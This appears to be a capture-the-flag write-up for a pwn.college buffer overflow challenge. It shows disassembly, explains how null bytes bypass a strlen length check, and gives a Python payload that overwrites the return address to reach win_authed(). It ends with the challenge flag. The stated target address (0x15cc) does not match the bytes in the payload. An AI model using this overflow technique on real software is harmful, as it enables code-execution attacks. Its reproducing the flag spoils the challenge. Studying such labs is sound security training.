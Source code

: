 In this challenge the program makes sure that the input buffer is not very long. 

But there is a way to bypass that check. 

    1ea5:	e8 16 f3 ff ff       	call   11c0 <read@plt>
    1eaa:	89 45 ec             	mov    DWORD PTR [rbp-0x14],eax
    1ead:	48 8b 45 f0          	mov    rax,QWORD PTR [rbp-0x10]
    1eb1:	48 89 c7             	mov    rdi,rax
    1eb4:	e8 c7 f2 ff ff       	call   1180 <strlen@plt>
    1eb9:	48 89 45 e0          	mov    QWORD PTR [rbp-0x20],rax
    1ebd:	48 83 7d e0 73       	cmp    QWORD PTR [rbp-0x20],0x73
    1ec2:	76 1f                	jbe    1ee3 <challenge+0x18d>
    1ec4:	48 8d 0d 1d 13 00 00 	lea    rcx,[rip+0x131d]        # 31e8 <__PRETTY_FUNCTION__.5714>
    1ecb:	ba 4f 00 00 00       	mov    edx,0x4f
    1ed0:	48 8d 35 49 12 00 00 	lea    rsi,[rip+0x1249]        # 3120 <_IO_stdin_used+0x120>
    1ed7:	48 8d 3d 98 12 00 00 	lea    rdi,[rip+0x1298]        # 3176 <_IO_stdin_used+0x176>
    1ede:	e8 bd f2 ff ff       	call   11a0 <__assert_fail@plt>
    1ee3:	8b 45 ec             	mov    eax,DWORD PTR [rbp-0x14]

This program uses `read` syscall to read from stdin and then it uses `strlen` to calculate its size. 
`strlen` finds the first null character and returns its offset from the first character. 
`read` syscall only stops taking input when all the buffers are filled. But since we will send our input through a pipe we do not have to enter count bytes.

Now we can find the offset of return address from the input buffer then fill the buffer with null characters

The address we want to jump in win_authed() function is 0x15cc which can be found using objdump. 
The offset can be found using gdb

    python -c 'import sys, time; sys.stdout.buffer.write(b"200"); time.sleep(1); sys.stdout.buffer.write(b"A"*8+b"\x00"*160 + b"\x55\x1c")'

The flag 

    pwn.college{UqyRjuxhBwVGZJKYtDl0kZEes1t.0FNwMDL5kzM1czW}


